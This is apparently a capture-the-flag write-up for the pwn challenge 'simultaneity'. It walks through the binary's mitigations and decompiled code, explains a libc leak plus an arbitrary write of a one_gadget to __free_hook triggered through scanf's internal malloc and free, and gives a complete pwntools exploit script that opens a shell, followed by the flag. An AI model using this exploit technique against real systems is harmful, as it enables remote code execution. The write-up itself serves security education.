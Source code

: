 # simultaneity

## Challenge

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Disassembly

```c
void main(void)
{
    void *pvVar1;
    undefined8 extraout_RDX;
    int64_t iVar2;
    uint64_t uVar3;
    int64_t in_FS_OFFSET;
    int64_t size;
    void *var_10h;
    int64_t var_8h;

    var_8h = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.puts("how big?");
    sym.imp.__isoc99_scanf(0x200d, &size);
    var_10h = (void *)sym.imp.malloc(size);
    sym.imp.printf("you are here: %p\n", var_10h);
    sym.imp.puts("how far?");
    sym.imp.__isoc99_scanf(0x200d, &size);
    sym.imp.puts("what?");
    pvVar1 = (void *)((int64_t)var_10h + size * 8);
    sym.imp.__isoc99_scanf(0x2032, pvVar1, size * 8);
    uVar3 = 0;
    sym.imp._exit(0);
}
```

## Solution

The program accepts a size to malloc.

Once the space is allocated, the program prints the address to stdout, then asks for an offset and a qword to write to the address.

PIE is enabled, so we do not know the address of the binary.
However, we can find the address of libc by allocating enough space that a new page is created.
The page will be created directly above libc.
Knowing the size of this page, as well as the address given by the program, we can calculate the base address of libc.

There are no bounds on the offset, so we can now write a single qword to any location in libc.
By writing the address of a one_gadget to `__free_hook`, we can spawn a shell when `free` is called.
However, the `scanf` call that writes data is the last thing called before the program exits.

With a sufficiently large payload, `scanf` uses malloc and free in its implementation.
Thus, by padding the beginning of our content with zeros, we can force `scanf` to call `free` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mc.ax --port 31547 simultaneity
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('simultaneity')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 31547)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

howbig = 0x10000000
one_gadget = 0xe5456

io.recvuntil("how big?\n")
io.sendline(str(howbig - 0x18))
io.recvuntil("you are here: ")

leak = int(io.recvuntil("\n", drop=True), 0)

libc.address = leak + howbig - 0x10
io.success(hex(libc.address))

io.recvuntil("how far?\n")
io.sendline(str((libc.sym["__free_hook"] - leak) // 8))

io.recvuntil("what?\n")
io.sendline("0"*int(1e5) + str(libc.address + one_gadget))

io.interactive()
```

## Flag

`flag{sc4nf_i3_4_h34p_ch4l13ng3_TKRs8b1DRlN1hoLJ}`


